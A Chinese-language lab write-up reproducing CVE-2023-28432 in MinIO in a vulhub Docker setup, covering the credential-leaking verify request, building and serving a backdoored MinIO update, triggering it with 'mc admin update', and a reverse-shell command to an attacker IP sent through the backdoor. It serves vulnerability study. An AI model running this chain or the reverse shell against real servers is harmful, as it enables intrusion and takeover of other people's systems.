中间件MinIO信息泄露导致的RCE（CVE-2023-28432）
简介
Minio 是一个基于Go语言的对象存储服务。它实现了大部分亚马逊S3云存储服务接口，可以看做是是S3的开源版本，非常适合于存储大容量非结构化的数据，例如图片、视频、日志文件、备份数据和容器/虚拟机镜像等。MinIO verify接口存在敏感信息泄漏漏洞，攻击者通过构造特殊URL地址，读取系统敏感信息。
默认账号密码是：minioadmin/minioadmin
漏洞利用方式
1
2
3
4
5
6
7
8
9
| 版本号检测：
1.http请求：GET /api/v1/check-version
2.HTTP响应版本小于RELEASE.2023-03-20T20-16-18Z则存在漏洞。
信息泄漏：
POST /minio/bootstrap/v1/verify HTTP/1.1
RCE思路：
利用泄露的账号密码和MinIO客户端登录并设置MinIO的升级访问URL，因为MinIO对于升级包的sha256sum校验失效，所以能够有损的RCE。
1.设置升级url：mc alias set myminio http:
2.触发更新：mc admin update myminio -y
|
环境搭建
使用vulhub的docker搭建服务
1
2
3
4
| https://hub.nuaa.cf/vulhub/vulhub/tree/master/minio/CVE-2023-28432
下载docker-compose.yml之后进行启动
docker-compose up -d
|

10.211.55.9:9001

非官方的镜像，没有公钥，不用绕过。

漏洞复现
POC
1
2
3
4
5
6
7
8
9
10
11
12
| POST /minio/bootstrap/v1/verify HTTP/1.1
Host: 10.211.55.9:9000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) wwlocal/2.6.760000 Chrome/96.0.4664.174 Electron/16.2.2 Safari/537.36 wxwork/2.6.760000 wwlocal/1.0 wxworklocal/2.6.760000 WXDrive/2.0 MicroMessenger/6.3.22
Accept: *
|

得到了账号密码 minioadmin/minioadmin-vulhub

安装mc客户端
折腾了一下mac端的mac客户端，没成功之后，就改使用docker版本的mc客户端
1
2
3
4
5
6
|
$ docker pull minio/mc
$ docker run minio/mc ls play
docker run -it --entrypoint=/bin/sh minio/mc
|
连接尝试，添加实例，添加成功。
1
| mc config host add miniode1 http://10.211.55.9:9000 minioadmin minioadmin-vulhub
|
RCE复现
大佬修改好的后门版本下载地址：https://github.com/AbelChe/evil_minio
1
2
3
4
5
6
7
8
|
CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build -ldflags="-s -w" -trimpath
mv minio minio.RELEASE.2023-03-22T06-36-24Z
shasum -a 256 minio.RELEASE.2023-03-22T06-36-24Z > minio.RELEASE.2023-03-22T06-36-24Z.sha256sum
启动http服务
python3 -m http.server 18090
|
编译报错了

解决：
1
2
3
| go env -w GOPROXY=https:
go clean -modcache
go mod tidy
|
执行完成之后，再继续执行最上面的命令进行编译。再次遇到问题，golang版本太低，本机的版本是1.7.5；提示需要1.8版本和1.19.1；查了一下官方信息，需要1.19以上版本的go环境运行。


升级golang的版本；下载 golang 版本升级工具
执行升级命令
1
2
3
4
| cd update-golang
sudo RELEASE=1.19.1 ./update-golang.sh
说明： RELEASE=1.19.1 指定 golang 需要升级的版本
go version
|

继续编译，编译成功。并且重命名一下

校验一下sha256

RCE
为了直观点，我们可以创建一个桶（此操作非必须）

使用mc客户端进行操作
1
2
3
4
5
6
7
8
|
mc config host add docker_minio1 http://ip:9000 用户名 密码
mc config host add miniode1 http://10.211.55.9:9000 minioadmin minioadmin-vulhub
mc ls miniode1
mc admin update miniode1 http://10.211.55.2:18090/minio.RELEASE.2023-03-22T06-36-24Z.sha256sum -y
|
成功升级

尝试执行命令
踩坑：（这里一开始一直使用9001端口访问，一直都没成功，以为自己的升级包有问题）
最后使用9000端口进行请求，成功执行了命令

反弹shell
1
2
3
| /bin/sh -i >& /dev/tcp/10.211.55.2/4567 0>&1
curl 'http://10.211.55.9:9000/?alive=%2Fbin%2Fsh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.211.55.2%2F4567%200%3E%261'
|

功能依然正常，未受到影响

总结：
- 环境搭建过程遇到了较多的问题：主要是当时没有科学上网，拉去国外资源的时候太慢了，会有一些莫名其妙的报错。
- golang的版本：其次是golang环境的版本，太久没更新本地golang环境，导致无法正常编译。
- 验证是否成功